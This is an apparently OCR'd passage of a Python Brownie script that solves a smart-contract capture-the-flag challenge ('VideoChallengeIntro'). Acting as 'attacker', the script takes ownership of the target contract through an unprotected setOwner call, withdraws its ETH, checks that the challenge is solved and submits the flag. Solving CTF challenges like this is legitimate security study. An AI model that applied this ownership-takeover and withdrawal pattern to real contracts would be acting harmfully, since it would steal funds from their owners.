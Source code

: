 ```py
            )
        except:
            print("OPPS!!")
            exit(-1)

        # print(Setup)
        # print(type(Setup))
        # exit()
        setup = Setup.at(f"{SETUP}")
        attacker = get_account()

    print_colour(setup.isSolved())

    # ? get the address of the target contract
    vci_contract = VideoChallengeIntro.at(setup.vci.call())
    # print(target.vci.call())

    print(
        f"{magenta}Contract balance: {green}{web3.fromWei(vci_contract.balance({'from': attacker}), 'ether')} ETH{reset}"
    )
    # print(dir(vci_contract))

    vci_contract.setOwner({"from": attacker, "gas_limit": 200000}).wait(1)
    vci_contract.withdraw({"from": attacker, "gas_limit": 200000}).wait(1)

    print(
        f"{magenta}Contract balance: {green}{web3.fromWei(vci_contract.balance({'from': attacker}), 'ether')} ETH{reset}"
    )
    print_colour(setup.isSolved())

    assert setup.isSolved() == True

    if netwrk == "mevsec":
        # now sublit & get the points
        submit(FLAG_ID)


def main():
    netwrk = network.show_active()
    # print(netwrk)

    if netwrk == "mevsec":
        hack(netwrk)
    else:
        hack()


if __name__ == "__main__":
    main()

```

